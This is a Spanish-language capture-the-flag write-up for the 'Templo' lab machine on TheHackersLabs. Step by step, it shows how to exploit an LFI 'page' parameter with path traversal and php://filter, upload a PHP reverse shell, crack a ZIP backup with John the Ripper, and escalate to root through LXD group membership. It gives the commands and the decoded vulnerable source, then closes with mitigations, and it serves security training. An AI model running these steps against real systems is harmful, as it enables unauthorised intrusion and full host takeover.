## Información General

|**Campo**|**Detalle**|
|---|---|
|**Nombre de la máquina**|Templo|
|**Plataforma**|TheHackersLabs|
|**Dificultad**|Fácil/Media|
|**Sistema Operativo**|Linux (Ubuntu)|
|**Servicios expuestos**|SSH (22), HTTP (80)|

## Resumen del Ataque

La máquina aloja un sitio web bajo la temática "RODGAR". El texto de la página principal contiene la pista "NAMARI lo es todo, solo debes probar", lo que orienta a fuzzing de directorios. Se descubre el directorio `/wow/` con un archivo `clue.txt` que indica revisar `/opt`, y el directorio `/NAMARI/`, que expone un formulario de subida de archivos y un parámetro `page` vulnerable a Local File Inclusion (LFI). Tras confirmar la LFI leyendo `/etc/passwd`, se sube una webshell en PHP (Pentestmonkey) y, dado que el servidor renombra el archivo subido, se utiliza decodificación ROT13 sobre el nombre del fichero para localizarlo en `/uploads/`. Obtenida una shell como `www-data`, se localiza en `/opt` un directorio oculto (`.XXX`) con un `backup.zip` protegido por contraseña. Dicha contraseña se obtiene con John the Ripper (`zip2john`) contra `rockyou.txt`, revelando la credencial de acceso SSH del usuario `rodgar` dentro del backup. Con acceso SSH y la flag de usuario capturada, se identifica que `rodgar` pertenece al grupo `lxd`, lo que permite escalar privilegios a `root` mediante la creación de un contenedor LXD privilegiado que monta el sistema de archivos raíz del host.

## Técnicas Usadas

- Reconocimiento de puertos y servicios con Nmap
- Fuzzing de contenido web con Gobuster
- Descubrimiento de pistas en archivos de texto expuestos (`clue.txt`)
- Explotación de Local File Inclusion (LFI) vía parámetro GET `page`
- Subida de webshell PHP mediante formulario de carga de archivos sin validación
- Evasión de ofuscación de nombre de archivo subido mediante decodificación ROT13
- Obtención de reverse shell y estabilización de TTY
- Cracking de archivo ZIP protegido con contraseña (`zip2john` + John the Ripper / `rockyou.txt`)
- Acceso inicial por SSH con credenciales extraídas del backup
- Escalada de privilegios abusando de la pertenencia al grupo `lxd` (creación de contenedor privilegiado)

## Desarrollo

**1. Escaneo de puertos completo**

```
sudo nmap -p- -sS --min-rate 5000 -n -vvv -Pn -oN ports 192.168.241.191
```



**2. Escaneo de versiones y servicios**

```
nmap -p 22,80 -sC -sV -oN allport 192.168.241.191 
```



**3. Enumeración del servicio Web**

```
http://192.168.241.191/
```

![[Pasted image 20260920192508.png]]

Frase que nos dice en la web principal "NAMARI lo es todo solo debes probar"

**4. Fuzzing de contenido web**

```
gobuster dir -u http://192.168.241.191/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html -t 125
```



**5. Pista en /wow/clue.txt**

```
http://192.168.241.191/wow/
```

![[Pasted image 20260920192902.png]]

```
http://192.168.241.191/wow/clue.txt
```



**6. Descubrimiento del directorio /NAMARI/**

```
http://192.168.241.191/NAMARI/
```

Se localiza un formulario de "Subida de Archivos" y otro de "Incluir Archivo" (parámetro `page` vía GET), indicando una posible vulnerabilidad de Local File Inclusion.

![[Pasted image 20260920193012.png]]

**7. Explotación de LFI**

Archivo a incluir:

```
../../../../../../../../../etc/passwd
```

![[Pasted image 20260920193109.png]]



Se confirma la LFI y se identifica al usuario del sistema `rodgar`.

**8. Subida de Webshell PHP**

Creamos una `shell.php` de Pentestmonkey's

```
nc -lvnp 1234
```

Subir Archivo → Selecciona un archivo para subir → "El archivo ha sido subido exitosamente."



**9. Localización del archivo subido**

```
gobuster dir -u http://192.168.241.191/NAMARI/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html -t 125
```



```
http://192.168.241.191/NAMARI/uploads/shell.php
```

El nombre original no funciona directamente. 



```
http://192.168.241.191/NAMARI/index.php?page=php://filter/convert.base64-encode/resource=index.php
```



```
echo "PD9waHAKLy8gTWFuZWpvIGRlIHN1YmlkYSBkZSBhcmNoaXZvcwppZiAoJF9TRVJWRVJbJ1JFUVVFU1RfTUVUSE9EJ10gPT09ICdQT1NUJykgewogICAgJHRhcmdldF9kaXIgPSAidXBsb2Fkcy8iOwoKICAgIC8vIE9idGllbmUgZWwgbm9tYnJlIG9yaWdpbmFsIGRlbCBhcmNoaXZvIHkgc3UgZXh0ZW5zacOzbgogICAgJG9yaWdpbmFsX25hbWUgPSBiYXNlbmFtZSgkX0ZJTEVTWyJmaWxlVG9VcGxvYWQiXVsibmFtZSJdKTsKICAgICRmaWxlX2V4dGVuc2lvbiA9IHBhdGhpbmZvKCRvcmlnaW5hbF9uYW1lLCBQQVRISU5GT19FWFRFTlNJT04pOwoKCiAgICAkZmlsZV9uYW1lX3dpdGhvdXRfZXh0ZW5zaW9uID0gcGF0aGluZm8oJG9yaWdpbmFsX25hbWUsIFBBVEhJTkZPX0ZJTEVOQU1FKTsKICAgICRyb3QxM19lbmNvZGVkX25hbWUgPSBzdHJfcm90MTMoJGZpbGVfbmFtZV93aXRob3V0X2V4dGVuc2lvbik7CiAgICAkbmV3X25hbWUgPSAkcm90MTNfZW5jb2RlZF9uYW1lIC4gJy4nIC4gJGZpbGVfZXh0ZW5zaW9uOwoKICAgIC8vIENyZWEgbGEgcnV0YSBjb21wbGV0YSBwYXJhIGVsIG51ZXZvIGFyY2hpdm8KICAgICR0YXJnZXRfZmlsZSA9ICR0YXJnZXRfZGlyIC4gJG5ld19uYW1lOwoKICAgIC8vIE11ZXZlIGVsIGFyY2hpdm8gc3ViaWRvIGFsIGRpcmVjdG9yaW8gb2JqZXRpdm8gY29uIGVsIG51ZXZvIG5vbWJyZQogICAgaWYgKG1vdmVfdXBsb2FkZWRfZmlsZSgkX0ZJTEVTWyJmaWxlVG9VcGxvYWQiXVsidG1wX25hbWUiXSwgJHRhcmdldF9maWxlKSkgewogICAgICAgIC8vIE1lbnNhamUgZ2Vuw6lyaWNvIHNpbiBtb3N0cmFyIGVsIG5vbWJyZSBkZWwgYXJjaGl2bwogICAgICAgICRtZXNzYWdlID0gIkVsIGFyY2hpdm8gaGEgc2lkbyBzdWJpZG8gZXhpdG9zYW1lbnRlLiI7CiAgICAgICAgJG1lc3NhZ2VfdHlwZSA9ICJzdWNjZXNzIjsKICAgIH0gZWxzZSB7CiAgICAgICAgJG1lc3NhZ2UgPSAiSHVibyB1biBlcnJvciBzdWJpZW5kbyB0dSBhcmNoaXZvLiI7CiAgICAgICAgJG1lc3NhZ2VfdHlwZSA9ICJlcnJvciI7CiAgICB9Cn0KCgppZiAoaXNzZXQoJF9HRVRbJ3BhZ2UnXSkpIHsKICAgICRmaWxlID0gJF9HRVRbJ3BhZ2UnXTsKICAgIGluY2x1ZGUoJGZpbGUpOwp9Cj8+Cgo8IURPQ1RZUEUgaHRtbD4KPGh0bWwgbGFuZz0iZXMiPgo8aGVhZD4KICAgIDxtZXRhIGNoYXJzZXQ9IlVURi04Ij4KICAgIDx0aXRsZT5TdWJpZGEgZGUgQXJjaGl2b3MgeSBMRkk8L3RpdGxlPgogICAgPHN0eWxlPgogICAgICAgIGJvZHkgewogICAgICAgICAgICBmb250LWZhbWlseTogQXJpYWwsIHNhbnMtc2VyaWY7CiAgICAgICAgICAgIG1hcmdpbjogMDsKICAgICAgICAgICAgcGFkZGluZzogMDsKICAgICAgICAgICAgZGlzcGxheTogZmxleDsKICAgICAgICAgICAgZmxleC1kaXJlY3Rpb246IGNvbHVtbjsKICAgICAgICAgICAgYWxpZ24taXRlbXM6IGNlbnRlcjsKICAgICAgICAgICAganVzdGlmeS1jb250ZW50OiBjZW50ZXI7CiAgICAgICAgICAgIG1pbi1oZWlnaHQ6IDEwMHZoOwogICAgICAgICAgICBiYWNrZ3JvdW5kOiB1cmwoJ3VwLmpwZycpIG5vLXJlcGVhdCBjZW50ZXIgY2VudGVyIGZpeGVkOwogICAgICAgICAgICBiYWNrZ3JvdW5kLXNpemU6IGNvdmVyOwogICAgICAgIH0KCiAgICAgICAgaDIgewogICAgICAgICAgICBjb2xvcjogIzMzMzsKICAgICAgICAgICAgdGV4dC1hbGlnbjogY2VudGVyOwogICAgICAgICAgICB3aWR0aDogMTAwJTsKICAgICAgICAgICAgYmFja2dyb3VuZC1jb2xvcjogcmdiYSgyNTUsIDI1NSwgMjU1LCAwLjgpOwogICAgICAgICAgICBwYWRkaW5nOiAxMHB4OwogICAgICAgICAgICBib3JkZXItcmFkaXVzOiA1cHg7CiAgICAgICAgfQoKICAgICAgICBmb3JtIHsKICAgICAgICAgICAgYmFja2dyb3VuZC1jb2xvcjogcmdiYSgyNTUsIDI1NSwgMjU1LCAwLjgpOwogICAgICAgICAgICBwYWRkaW5nOiAyMHB4OwogICAgICAgICAgICBib3JkZXItcmFkaXVzOiA1cHg7CiAgICAgICAgICAgIGJveC1zaGFkb3c6IDAgMCAxMHB4IHJnYmEoMCwgMCwgMCwgMC4xKTsKICAgICAgICAgICAgbWFyZ2luLWJvdHRvbTogMjBweDsKICAgICAgICAgICAgd2lkdGg6IDgwJTsgLyogQW5jaG8gZGUgbG9zIGZvcm11bGFyaW9zIGFsIDgwJSBkZSBsYSBwYW50YWxsYSAqLwogICAgICAgICAgICBtYXgtd2lkdGg6IDYwMHB4OyAvKiBBbmNobyBtw6F4aW1vIGRlIGxvcyBmb3JtdWxhcmlvcyAqLwogICAgICAgIH0KCiAgICAgICAgbGFiZWwgewogICAgICAgICAgICBkaXNwbGF5OiBibG9jazsKICAgICAgICAgICAgbWFyZ2luLWJvdHRvbTogOHB4OwogICAgICAgICAgICBmb250LXdlaWdodDogYm9sZDsKICAgICAgICB9CgogICAgICAgIGlucHV0W3R5cGU9ImZpbGUiXSwKICAgICAgICBpbnB1dFt0eXBlPSJ0ZXh0Il0gewogICAgICAgICAgICB3aWR0aDogMTAwJTsKICAgICAgICAgICAgcGFkZGluZzogOHB4OwogICAgICAgICAgICBtYXJnaW4tYm90dG9tOiAxMHB4OwogICAgICAgICAgICBib3JkZXI6IDFweCBzb2xpZCAjY2NjOwogICAgICAgICAgICBib3JkZXItcmFkaXVzOiA0cHg7CiAgICAgICAgfQoKICAgICAgICBpbnB1dFt0eXBlPSJzdWJtaXQiXSB7CiAgICAgICAgICAgIGJhY2tncm91bmQtY29sb3I6ICMwMDdiZmY7CiAgICAgICAgICAgIGNvbG9yOiB3aGl0ZTsKICAgICAgICAgICAgcGFkZGluZzogMTBweCAxNXB4OwogICAgICAgICAgICBib3JkZXI6IG5vbmU7CiAgICAgICAgICAgIGJvcmRlci1yYWRpdXM6IDRweDsKICAgICAgICAgICAgY3Vyc29yOiBwb2ludGVyOwogICAgICAgICAgICB3aWR0aDogMTAwJTsKICAgICAgICB9CgogICAgICAgIGlucHV0W3R5cGU9InN1Ym1pdCJdOmhvdmVyIHsKICAgICAgICAgICAgYmFja2dyb3VuZC1jb2xvcjogIzAwNTZiMzsKICAgICAgICB9CgogICAgICAgIC5tZXNzYWdlIHsKICAgICAgICAgICAgcGFkZGluZzogMTBweDsKICAgICAgICAgICAgbWFyZ2luLWJvdHRvbTogMjBweDsKICAgICAgICAgICAgYm9yZGVyLXJhZGl1czogNXB4OwogICAgICAgICAgICB0ZXh0LWFsaWduOiBjZW50ZXI7CiAgICAgICAgICAgIHdpZHRoOiA4MCU7IC8qIEFuY2hvIGRlbCBtZW5zYWplIGFsIDgwJSBkZSBsYSBwYW50YWxsYSAqLwogICAgICAgICAgICBtYXgtd2lkdGg6IDYwMHB4OyAvKiBBbmNobyBtw6F4aW1vIGRlbCBtZW5zYWplICovCiAgICAgICAgICAgIGJhY2tncm91bmQtY29sb3I6IHJnYmEoMjU1LCAyNTUsIDI1NSwgMC44KTsKICAgICAgICB9CgogICAgICAgIC5zdWNjZXNzIHsKICAgICAgICAgICAgYmFja2dyb3VuZC1jb2xvcjogI2Q0ZWRkYTsKICAgICAgICAgICAgY29sb3I6ICMxNTU3MjQ7CiAgICAgICAgICAgIGJvcmRlcjogMXB4IHNvbGlkICNjM2U2Y2I7CiAgICAgICAgfQoKICAgICAgICAuZXJyb3IgewogICAgICAgICAgICBiYWNrZ3JvdW5kLWNvbG9yOiAjZjhkN2RhOwogICAgICAgICAgICBjb2xvcjogIzcyMWMyNDsKICAgICAgICAgICAgYm9yZGVyOiAxcHggc29saWQgI2Y1YzZjYjsKICAgICAgICB9CiAgICA8L3N0eWxlPgo8L2hlYWQ+Cjxib2R5PgogICAgPD9waHAgaWYgKGlzc2V0KCRtZXNzYWdlKSk6ID8+CiAgICAgICAgPGRpdiBjbGFzcz0ibWVzc2FnZSA8P3BocCBlY2hvICRtZXNzYWdlX3R5cGU7ID8+Ij4KICAgICAgICAgICAgPD9waHAgZWNobyAkbWVzc2FnZTsgPz4KICAgICAgICA8L2Rpdj4KICAgIDw/cGhwIGVuZGlmOyA/PgoKICAgIDxoMj5TdWJpciBBcmNoaXZvPC9oMj4KICAgIDxmb3JtIGFjdGlvbj0iaW5kZXgucGhwIiBtZXRob2Q9InBvc3QiIGVuY3R5cGU9Im11bHRpcGFydC9mb3JtLWRhdGEiPgogICAgICAgIDxsYWJlbCBmb3I9ImZpbGVUb1VwbG9hZCI+U2VsZWNjaW9uYSB1biBhcmNoaXZvIHBhcmEgc3ViaXI6PC9sYWJlbD4KICAgICAgICA8aW5wdXQgdHlwZT0iZmlsZSIgbmFtZT0iZmlsZVRvVXBsb2FkIiBpZD0iZmlsZVRvVXBsb2FkIj4KICAgICAgICA8aW5wdXQgdHlwZT0ic3VibWl0IiB2YWx1ZT0iU3ViaXIgQXJjaGl2byIgbmFtZT0ic3VibWl0Ij4KICAgIDwvZm9ybT4KCiAgICA8aDI+SW5jbHVpciBBcmNoaXZvPC9oMj4KICAgIDxmb3JtIGFjdGlvbj0iaW5kZXgucGhwIiBtZXRob2Q9ImdldCI+CiAgICAgICAgPGxhYmVsIGZvcj0icGFnZSI+QXJjaGl2byBhIGluY2x1aXI6PC9sYWJlbD4KICAgICAgICA8aW5wdXQgdHlwZT0idGV4dCIgaWQ9InBhZ2UiIG5hbWU9InBhZ2UiPgogICAgICAgIDxpbnB1dCB0eXBlPSJzdWJtaXQiIHZhbHVlPSJJbmNsdWlyIj4KICAgIDwvZm9ybT4KPC9ib2R5Pgo8L2h0bWw+Cg==" base64 -d
```  



Así que en un decodeador online subimos el nombre de nuestro archivo para que lo encode a rot13, y ya sabemos cómo se llamaría nuestro archivo.

```
https://rot13.com/
```



`shell` en ROT13 → `furyy`

```
http://192.168.241.191/NAMARI/uploads/furyy.php
```

**10. Obtención de Reverse Shell**



```
script /dev/null -c bash
ctrl+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 33 columns 144
```

```
www-data@TheHackersLabs-Templo:/$ whoami
```

![[Pasted image 20260920193839.png]]

**11. Enumeración post-explotación en /opt**

```
www-data@TheHackersLabs-Templo:/$ cd /opt
www-data@TheHackersLabs-Templo:/opt$ 
```

![[Pasted image 20260920193805.png]]

```
www-data@TheHackersLabs-Templo:/opt$ cd .XXX
www-data@TheHackersLabs-Templo:/opt/.XXX$ ls
```

![[Pasted image 20260920193926.png]]

**12. Exfiltración y cracking del backup**

```
www-data@TheHackersLabs-Templo:/opt/.XXX$ python3 -m http.server 8080
```

```
wget http://192.168.241.191:8080/backup.zip 
```

```
zip2john backup.zip > hash.txt
```

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```



```
unzip backup.zip
```



```
cd backup
cat Rodgar.txt 
```



**13. Acceso por SSH y Flag de Usuario**

```
ssh rodgar@192.168.241.191
```

```
rodgar@TheHackersLabs-Templo:~$ whoami
```



```
rodgar@TheHackersLabs-Templo:~$ cat user.txt 
```



**14. Enumeración para Escalada de Privilegios**

```
rodgar@TheHackersLabs-Templo:~$ sudo -l
```



```
rodgar@TheHackersLabs-Templo:~$ id
```

![[Pasted image 20260920194806.png]]

La pertenencia al grupo `lxd` permite escalar privilegios creando un contenedor privilegiado que monta el sistema de archivos del host.

**15. Escalada de Privilegios vía LXD**

Todo este proceso en nuestra máquina, una vez tengamos la imagen `.tar.gz`.

Descargar imagen que instalaremos

```
wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
```

Lo instalamos con sudo

```
sudo bash build-alpine
```

la pasamos a la máquina víctima

```
python3 -m http.server 8080
```

```
rodgar@TheHackersLabs-Templo:~$ cd /tmp
rodgar@TheHackersLabs-Templo:/tmp$ wget http://192.168.241.128:8080/alpine-v3.24-x86_64-20260920_1816.tar.gz
```

importamos la imagen

```
lxc image import alpine-v3.18-x86_64-20230628_1137.tar.gz --alias alpine 
```

listamos la imagen para ver que se haya creado

```
lxc image list 
```   



```
lxd init --auto 
lxc init alpine privesc -c security.privileged=true 
```

ponemos que la / raíz esté en `/mnt/root`

```   
lxc config device add privesc giveMeRoot disk source=/ path=/mnt/root recursive=true 
```

```   
lxc start privesc
```   
   
```   
lxc exec privesc sh
```

**16. Obteniendo Shell de Root y Flag**

```
cd /mnt/root
```

```
/mnt/root # whoami
```



```
/mnt/root # cd root
/mnt/root/root # cat root.txt 
```



## Lecciones Aprendidas

- **Fuga de información en pistas y archivos expuestos:** Frases y archivos de texto (`clue.txt`) accesibles públicamente pueden orientar a un atacante hacia rutas y directorios ocultos que deberían permanecer privados.
- **Local File Inclusion (LFI) sin sanitización:** Permitir que el usuario controle rutas de archivo en un parámetro (`page`) sin validación posibilita la lectura de archivos arbitrarios del sistema, como `/etc/passwd`.
- **Subida de archivos sin restricción de tipo:** La ausencia de validación de extensión/contenido en el formulario de subida permite cargar y ejecutar código PHP arbitrario (webshell).
- **Ofuscación como falsa medida de seguridad:** Renombrar archivos subidos mediante una transformación reversible y predecible (ROT13) no constituye una medida de seguridad real.
- **Backups sin cifrado robusto y contraseñas débiles:** Un archivo ZIP protegido con una contraseña débil (presente en diccionarios como `rockyou.txt`) no ofrece protección real frente a ataques de fuerza bruta.
- **Pertenencia innecesaria a grupos privilegiados:** Incluir a un usuario en el grupo `lxd` equivale a otorgarle privilegios de root, ya que permite crear contenedores privilegiados capaces de montar el sistema de archivos del host.

## Medidas de Mitigación

1. **Sanitización de Entradas en el parámetro "page":**

- Evitar el uso de rutas arbitrarias proporcionadas por el usuario para incluir archivos.
- Implementar una lista blanca (_whitelist_) estricta de archivos permitidos para inclusión.
- Utilizar `basename()` y validaciones adicionales para prevenir Path Traversal (`../`).

2. **Seguridad en la Subida de Archivos:**

- Validar tanto la extensión como el contenido real (MIME type) de los archivos subidos.
- Almacenar los archivos subidos fuera de la raíz pública, o impedir la ejecución de scripts en el directorio de uploads (ej. mediante configuración de Apache/Nginx).
- Generar nombres de archivo aleatorios y no reversibles al almacenarlos (no usar transformaciones simples como ROT13).

3. **Protección de Backups y Credenciales:**

- No almacenar backups con información sensible en directorios accesibles por el servicio web comprometido.
- Utilizar contraseñas robustas y algoritmos de cifrado fuertes para proteger archivos comprimidos.
- Rotar credenciales expuestas inmediatamente tras detectar una fuga.

